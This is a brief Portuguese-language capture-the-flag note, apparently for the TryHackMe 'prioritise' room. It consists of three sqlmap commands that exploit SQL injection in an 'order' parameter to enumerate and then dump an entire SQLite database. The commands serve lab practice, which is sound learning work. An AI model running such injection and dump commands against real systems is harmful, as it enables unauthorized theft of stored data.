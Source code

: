 #ctf
https://tryhackme.com/room/prioritise

Só rodar os comandos abaixo

```sh
sqlmap -u http://IP/?order=title --dbs --level 5 --risk 3    
sqlmap -u http://IP/?order=title --dbms=SQLite --tables --level 5 --risk 3 --threads=10  
sqlmap -u http://IP/?order=title --dbms=SQLite --dump-all --level 5 --risk 3 --threads=10
```

